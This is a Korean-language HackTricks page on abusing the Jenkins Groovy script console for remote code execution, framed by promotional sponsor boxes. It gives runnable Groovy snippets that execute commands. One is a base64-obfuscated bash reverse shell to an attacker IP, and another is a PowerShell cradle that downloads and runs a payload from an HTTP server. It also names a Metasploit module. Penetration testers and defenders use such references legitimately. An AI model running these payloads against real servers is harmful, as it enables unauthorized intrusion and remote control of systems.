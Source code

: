 # Jenkins Groovy 스크립트를 사용한 RCE

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왑**](https://peass.creator-spring.com)을 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## Jenkins Groovy 스크립트를 사용한 RCE

이는 Jenkins에서 새 프로젝트를 생성하는 것보다 덜 시끄러운 방법입니다.

1. _path\_jenkins/script_로 이동합니다.
2. 텍스트 상자 안에 스크립트를 입력합니다.
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
당신은 다음을 사용하여 명령을 실행할 수 있습니다: `cmd.exe /c dir`

**리눅스**에서는 다음을 수행할 수 있습니다: **`"ls /".execute().text`**

텍스트 내부에 _따옴표_와 _작은 따옴표_를 사용해야 하는 경우, 페이로드를 실행하기 위해 _"""PAYLOAD"""_ (세 개의 큰 따옴표)를 사용할 수 있습니다.

**다른 유용한 그루비 스크립트**는 다음과 같습니다 (대괄호 안에 명령어를 삽입하세요):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### 리눅스에서의 리버스 쉘

리버스 쉘은 원격 시스템에 접근하기 위해 사용되는 기술입니다. 리버스 쉘을 사용하면 공격자는 대상 시스템에 쉘을 열어 원격으로 명령을 실행할 수 있습니다. 이는 편리하게도 방화벽이나 NAT(Network Address Translation) 장치를 우회할 수 있는 방법입니다.

리버스 쉘을 설정하기 위해서는 다음 단계를 따라야 합니다:

1. 공격자는 대상 시스템에 악성 코드를 배포합니다. 이 코드는 공격자가 접근할 수 있는 서버에 연결하고, 명령을 전달받을 수 있는 쉘을 엽니다.
2. 대상 시스템은 악성 코드를 실행하고, 공격자의 서버에 연결합니다.
3. 공격자는 대상 시스템에 명령을 전달하고, 결과를 받을 수 있습니다.

리버스 쉘은 해커들이 시스템을 침투하고 제어하기 위해 자주 사용되는 기술 중 하나입니다. 따라서 시스템 보안을 강화하기 위해서는 이러한 공격을 예방하고 탐지할 수 있는 방법을 구현해야 합니다.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### 윈도우에서의 역쉘

PS 역쉘을 가진 HTTP 서버를 준비하고 Jeking을 사용하여 다운로드하고 실행할 수 있습니다:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### 스크립트

[**이 스크립트**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py)를 사용하여이 프로세스를 자동화 할 수 있습니다.

MSF를 사용하여 역쉘이 가능합니다:
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
